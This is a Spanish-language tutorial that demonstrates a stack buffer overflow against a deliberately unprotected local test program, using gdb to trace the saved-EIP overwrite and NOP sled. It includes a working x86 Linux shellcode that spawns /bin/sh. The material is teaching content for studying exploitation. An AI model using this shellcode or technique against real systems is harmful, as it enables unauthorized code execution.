






Vamos a usar un stack overflow para alterar el flujo del programa y ejecutar un código "alternativo". Podemos conseguir ejecutar código en el stack compilando el programa con la opción `-zexecstack`. En las arquitecturas modernas se utiliza una marca, `NX`, para indicar __que segmentos no son ejecutables__. Cuando el microprocesador trata de ejecutar código desde un segmento/página que tiene este marca, lanzará un error de violación de segmento. Con la opción `-zexecstack` lo que hacemos es desmarcar esta marca en la stack, de forma que si será posible ejecutar código en el stack.

En el __heap siempre estará la marca NX__, de modo que __no es posible ejecutar código desde el heap__.

La opción de gcc `-fno-stack-protector` lo que hace es __quitar la protección de buffer overflow de la stack__. gcc incluye unas variables de tipo "canary" en la stack para detectar si ha habido algun buffer overflow. Si queremos deshabilitar estos canaries, hay que usar esta opción al compilar.

Compilamos el fuente:

```ps
gcc -m32 -g -zexecstack -fno-stack-protector -o stack ./Stack.c

./Stack.c: In function ‘main’:
./Stack.c:58:9: warning: assignment to ‘char *’ from incompatible pointer type ‘int *’ [-Wincompatible-pointer-types]
   58 |     eip = &offset - offset;
      |         ^                                                                 
```

Al ejecutar el programa, observese como se nos abre un bash:

```ps
/stack         
Mensaje: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA|�������������������������������������������������������������������������������������������������������1�1۰Sh/ttyh/dev��1�f�'�1�Ph//shh/bin��PS�ᙰ

# 
```

# Analisis con el depurador

Vamos a ver con el depurador como hemos logrado este hack. Abrimos el depurador:

```ps
gdb -q ./stack

Reading symbols from ./stack...
```
Vamos a poner algunos breakpoints. Listamos el fuente:

```ps
list
```



Hacemos list varias veces hasta llegar a las lineas que nos interesan. Podemos también escribir

```ps
list 44
```

De esta forma nos mostrará el fuente directamente en esa línea de código. Para poner un break point escribimos:

```ps
break 44
```


Hemos puesto breakpoints en las siguientes líneas:

- `memset(explota, 0x41, pad);`. _Explota_ es un puntero que apunta al heap. Vamos a ver el contenido antes de rellenarlo
- `imprime(explota);`. Vamos a ver el contenido de la memoria - en el heap - a la que apunta _Explota_
- `strcpy(buffer, mensaje);`. Queremos ver el contenido de _buffer_ antes de que lo rellenemos con una copia de _mensaje_ - mensaje apunta a la misma direccion de memoria que _Explota_. _buffer_ es un puntero al _stack_ y _mensaje_ un puntero al heap. Con esta instrucción copiamos el contenido de uno en el otro
- `printf("Mensaje: %s\n",buffer);`. En este punto se habrá actualizado ya _buffer_, y se habrá manipulado por lo tanto nuestra stack

Una vez fijados los breakpoints, iniciamos la ejeción. Vamos a pasar como argumento de entrada _1_:

```ps
run 1
```

Se para en el primer break point:


Podemos inspeccionar el contenido de la variable _explota_, mostrandolo en hexadecimal, y una palabra completa - cuatro bytes:

```ps
x/xw explota
```

Podemos también mostrar, por ejemplo, el contenido de las 50 palabras a partir de _explota_. 

```ps
x/50xw explota
```

Notese que _explota_, que es un puntero, esta apuntando al heap - las direcciones son 0x5655a1a0:



Continuamos la ejecución:

```ps
cont
```


Podemos comprobar de nuevo el contenido del heap al que apunta _explota_:



Podemos ver como _explota_ sigue apuntando al mismo sitio que antes, pero ahora ya tenemos los datos cargados. En la última palabra a la que apunta _explota_ se muestra `0x0080cb0b`. Si nos fijamos en el código que hemos inyectado:

```c
    char *shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";
```

La última palabra que informamos es `\x0b\xcd\x80`. Como en _intel_ se guarda en __little indian__, se corresponde con lo que visualizamos. De echo si mostramos la información con _gdb_ no como words, sino como bytes - 59 words equivalen a 59x4=236 bytes:

```ps
x/236xb explota
```



Podemos ver que las cuatro últimos bytes son `0b cd 80 y 00`.

Continuamos con la ejecución:



Antes de que se escriba el buffer, podemos observar lo siguiente en el frame del Stack:

```ps
(gdb) info frame
Stack level 0, frame at 0xffffd4e0:
 eip = 0x56556372 in imprime (./Stack.c:74); saved eip = 0x5655634d
 called by frame at 0xffffd550
 source language c.
 Arglist at 0xffffd4d8, args: mensaje=0x5655a1a0 'A' <repeats 76 times>, "\370\324\377\377", '\220' <repeats 100 times>, "\061\300\061۰\006Sh/ttyh/dev\211"...
 Locals at 0xffffd4d8, Previous frame's sp is 0xffffd4e0
 Saved registers:
  ebx at 0xffffd4d4, ebp at 0xffffd4d8, eip at 0xffffd4dc
```

- _saved EIP_ es `0x5655634d`. Esta es la direccion a la que volveremos cuando salgamos de la función
- La dirección base de la stack es el register `ebp` que apunta a `0xffffd4d8`. Los argumentos estan guardados en la stack por encima de esta dirección. La palabra siguiente a `ebp`, apunta a la posición de la stack donde se guarda la direccion de retorno, la _saved EIP_.

```ps
(gdb) x/xw $ebp
0xffffd4d8:     0xffffd538
(gdb) x/xw $ebp+4
0xffffd4dc:     0x5655634d
```

- Recordemos que la pila crece hacia abajo. $ebp+4 esta en la pila antes que $ebp. $esp apunta a la ultima entrada de la pila. Podemos ver que esta en una dirección más baja que $ebp. También podemos ver que coincide con la direccion de _buffer_ porque _buffer_ es la última variable local creada en la función:

```ps
(gdb) x/xw buffer
0xffffd490:     0xf7ffd000
(gdb) x/xw $esp
0xffffd490:     0xf7ffd000
(gdb) x/xw $ebp
0xffffd4d8:     0xffffd538
(gdb) x/xw $ebp+4
0xffffd4dc:     0x5655634d
```

Continuamos la ejecución. _buffer_ se ha informado ya con los datos. Hemos hecho un stack overflow porque el contenido de _mensaje_ ocupa más de las _64_ posiciones reservadas para la variable local _buffer_:



Podemos ver el contenido de buffer, que supera los 64 bytes reservados:

```ps
(gdb) x/59xw buffer
0xffffd490:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd4a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd4b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd4c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd4d0:     0x41414141      0x41414141      0x41414141      0xffffd4f8
0xffffd4e0:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd4f0:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd500:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd510:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd520:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd530:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd540:     0x90909090      0xdb31c031      0x80cd06b0      0x742f6853
0xffffd550:     0x2f687974      0x89766564      0x66c931e3      0xb02712b9
0xffffd560:     0x3180cd05      0x2f6850c0      0x6868732f      0x6e69622f
0xffffd570:     0x5350e389      0xb099e189      0x0080cd0b
```

Se ha sobre escrito el contenido de $ebp+4, es decir, hemos cambiado la direccion a la que volveremos al salir de la función - la _saved EIP_ -

```ps
(gdb) x/xw $ebp+4
0xffffd4dc:     0xffffd4f8
```

```ps
(gdb) info frame
Stack level 0, frame at 0xffffd4e0:
 eip = 0x56556384 in imprime (./Stack.c:75); saved eip = 0xffffd4f8
 called by frame at 0x41414149
 source language c.
 Arglist at 0xffffd4d8, args: mensaje=0x90909090 <error: Cannot access memory at address 0x90909090>
 Locals at 0xffffd4d8, Previous frame's sp is 0xffffd4e0
 Saved registers:
  ebx at 0xffffd4d4, ebp at 0xffffd4d8, eip at 0xffffd4dc
```

Esta _saved EIP_ apunta al siguiente contenido:

```ps
(gdb) x/34xw 0xffffd4f8
0xffffd4f8:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd508:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd518:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd528:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd538:     0x90909090      0x90909090      0x90909090      0xdb31c031
0xffffd548:     0x80cd06b0      0x742f6853      0x2f687974      0x89766564
0xffffd558:     0x66c931e3      0xb02712b9      0x3180cd05      0x2f6850c0
0xffffd568:     0x6868732f      0x6e69622f      0x5350e389      0xb099e189
0xffffd578:     0x0080cd0b      0x00000000
```

Este será el código que se ejecute cuando salgamos de la función. Recordar dos cosas que hemos indicado al principio:
- Hemos hecho un stack overflow porque hemos cambiado el contenido de la stack más allá de las zonas que teníamos reservadas. Esto lo hemos podido hacer porque el programa lo compilamos con la opción `-fno-stack-protector`. De no haber sido así, _gcc_ habría incluido unos _canaries_ en el ensamblador, que habrían detectado el overflow
- Vamos a ejecutar instrucciones de código que están guardadas en el segmento de la stack. Esto lo vamos a poder hacer porque compilamos el programa usando la opción `-zexecstack`. 

Si miramos el contenido que hemos incluido en el buffer:

```ps
(gdb) x/59xw buffer
0xffffd490:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd4a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd4b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd4c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd4d0:     0x41414141      0x41414141      0x41414141      0xffffd4f8
0xffffd4e0:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd4f0:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd500:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd510:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd520:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd530:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd540:     0x90909090      0xdb31c031      0x80cd06b0      0x742f6853
0xffffd550:     0x2f687974      0x89766564      0x66c931e3      0xb02712b9
0xffffd560:     0x3180cd05      0x2f6850c0      0x6868732f      0x6e69622f
0xffffd570:     0x5350e389      0xb099e189      0x0080cd0b
```

podemos ver
- `0x41`. Esto es padding. Estamos rellenando el contenido antes de $ebp+4 con este dato
- `0xffffd4f8`. Esta palabra ocupará la posición $ebp+4, o dicho de otra forma, sera es el _saved EIP_. Notese que es una dirección de la propia stack, y más aún, que apunta al contenido del propio _buffer_. Lo que tenemos que hacer es colocar en esa dirección el código que queremos ejecutar
- `0x90`. Esto se corresponde con la instrucción NOP. El procesador no hará nada, incrementara el EIP en una posición. Si nuestro _saved EIP_ apunta aquí es una forma de hacer que el procesado vaya procesando a partir de esta dirección hasta encontrar alguna instrucción
- `0xdb31c031      0x80cd06b0      0x742f6853 ...` Se corresponde - __en little indian__ - con el código que queremos inyectar:

```c
    char *shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";
```
